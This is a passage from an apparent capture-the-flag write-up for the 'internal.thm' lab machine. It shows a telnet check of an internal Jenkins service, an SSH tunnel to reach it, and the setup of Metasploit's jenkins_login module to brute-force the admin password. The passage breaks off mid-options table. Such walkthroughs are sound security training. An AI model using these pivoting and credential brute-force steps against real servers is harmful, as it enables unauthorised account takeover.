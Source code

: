 ```
-rwx------ 1 aubreanna aubreanna   21 Aug  3  2020 user.txt
aubreanna@internal:~$ cat jenkins.txt 
Internal Jenkins service is running on 172.17.0.2:8080

```

We indeed see that the port is reachable and open:
```
aubreanna@internal:~$ telnet 172.17.0.2 8080
Trying 172.17.0.2...
Connected to 172.17.0.2.
Escape character is '^]'.
```

We create an SSH tunnel from our machine to be able to run enumeration:
```
ssh -L 8080:localhost:8080 aubreanna@internal.thm
```

We are able to get to the login page of Jenkins:

![](img/20210220210130.png)

We use msfconsole "scanner/http/jenkins_login" module to bruteforce the password of Jenkins. A bit of research shows us that the default username for Jenkins is "admin" so we try bruteforcing with this username first. We use the following options:

```
msf6 auxiliary(scanner/http/jenkins_login) > options

Module options (auxiliary/scanner/http/jenkins_login):

   Name              Current Setting                   Required  Description
   ----              ---------------                   --------  -----------
   BLANK_PASSWORDS   false                             no        Try blank passwords for all users
   BRUTEFORCE_SPEED  5                                 yes       How fast to bruteforce, from 0 to 5
   DB_ALL_CREDS      false                             no        Try each user/password couple stored in the current database
   DB_ALL_PASS       false                             no        Add all passwords in the current database to the list
```